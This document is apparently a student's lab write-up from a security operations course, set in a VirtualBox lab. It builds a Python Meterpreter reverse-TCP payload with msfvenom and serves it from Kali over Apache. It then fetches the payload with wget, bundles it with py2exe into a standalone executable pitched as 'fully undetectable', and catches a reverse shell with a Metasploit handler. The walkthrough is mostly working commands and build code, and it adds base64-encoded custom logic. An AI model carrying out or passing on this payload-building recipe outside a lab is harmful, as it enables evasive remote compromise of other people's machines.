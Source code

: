 ## Ops Challenge 30

### Part 1: Staging

------

#### Download and import the Metasploitable 3 Windows 2008 OVA into VirtualBox

![Screenshot 2022-01-12 at 12.45.21](https://github.com/pedrocorreiacodes/ops-401/blob/master/screenshots/class-30/Screenshot%202022-01-12%20at%2012.45.21.png)

#### Open the README file on the desktop

![Screenshot 2022-01-12 at 12.49.41](https://github.com/pedrocorreiacodes/ops-401/blob/master/screenshots/class-30/Screenshot%202022-01-12%20at%2012.49.41.png)

### Part 2: FUD Payload

------

Let's go over to the Kali Linux machine and create the Python payload. And start the server (IP address must be for the local machine:

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=443 -f raw -o /var/www/html/mrtp.py

service apache2 start
```

![Screenshot 2022-01-12 at 13.14.22](https://github.com/pedrocorreiacodes/ops-401/blob/master/screenshots/class-30/Screenshot%202022-01-12%20at%2013.14.22.png)

Copy the payload “mrtp.py” back to yer Windows machine. Using powershell, run:

```
wget http://192.168.56.101/mrtp.py -O mrtp.py
```

![Screenshot 2022-01-12 at 13.26.35](https://github.com/pedrocorreiacodes/ops-401/blob/master/screenshots/class-30/Screenshot%202022-01-12%20at%2013.26.35.png)

Create a setup.py file with the following content:

```python
from distutils.core import setup
import py2exe
setup(
name = "Meter",
description = "Python-based App",
version = "1.0",
console=["mrtp.py"],
options = {"py2exe": {"bundle_files": 1,"packages":"ctypes","includes": "base64,sys,socket,struct,time,code,platform,getpass,shutil",}},
zipfile = None,
)
```

Bundle the standalone Python executable with Py2Exe:

```
python.exe .\setup.py py2exe
```

![Screenshot 2022-01-12 at 14.32.37](https://github.com/pedrocorreiacodes/ops-401/blob/master/screenshots/class-30/Screenshot%202022-01-12%20at%2014.32.37.png)

Test the artifact “mrtp.exe” created under the dist folder:

`.\dist\mrtp.exe`

![Screenshot 2022-01-12 at 14.36.04](https://github.com/pedrocorreiacodes/ops-401/blob/master/screenshots/class-30/Screenshot%202022-01-12%20at%2014.36.04.png)

Go back to kali and run Metasploit (note that 192.168.56.101 is the IP address of the kali machine). Run with `sudo`:

```
msfconsole
use exploit/multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set LHOST 192.168.56.101
set LPORT 443
run
```

![Screenshot 2022-01-12 at 14.45.18](https://github.com/pedrocorreiacodes/ops-401/blob/master/screenshots/class-30/Screenshot%202022-01-12%20at%2014.45.18.png)

Now let's test it on the windows machine. Copy the “mrtp.exe” file directly to the Windows 10 box and run it while Metasploit handler is listening on port 443. As you can see by the screenshot below the meterpreter session wsa succesfully established.

![Screenshot 2022-01-12 at 19.28.42](https://github.com/pedrocorreiacodes/ops-401/blob/master/screenshots/class-30/Screenshot%202022-01-12%20at%2019.28.42.png)

#### Part 3: Custom FUD Payload

------

To create a custom payload using this technique we have to edit the `mrtp.py`file after generating it with msfvenom.

Create a custom Python script:

![Screenshot 2022-01-12 at 19.46.18](https://github.com/pedrocorreiacodes/ops-401/blob/master/screenshots/class-30/Screenshot%202022-01-12%20at%2019.46.18.png)

![Screenshot 2022-01-12 at 19.49.23](https://github.com/pedrocorreiacodes/ops-401/blob/master/screenshots/class-30/Screenshot%202022-01-12%20at%2019.49.23.png)

Encode it with base64 encoding and adding it to the existing “mrtp.py” script:

![Screenshot 2022-01-12 at 20.07.44](https://github.com/pedrocorreiacodes/ops-401/blob/master/screenshots/class-30/Screenshot%202022-01-12%20at%2020.07.44.png)

![Screenshot 2022-01-12 at 20.04.33](https://github.com/pedrocorreiacodes/ops-401/blob/master/screenshots/class-30/Screenshot%202022-01-12%20at%2020.04.33.png)

Copy the new “mrtp.py” back to the Windows machine and repeat the bundling steps:

```
wget http://192.168.56.101/mrtp.py -O mrtp.py
python.exe .\setup.py py2exe
.\dist\mrtp.exe
```

And we have a custom payload!

![Screenshot 2022-01-12 at 20.21.08](https://github.com/pedrocorreiacodes/ops-401/blob/master/screenshots/class-30/Screenshot%202022-01-12%20at%2020.21.08.png) 
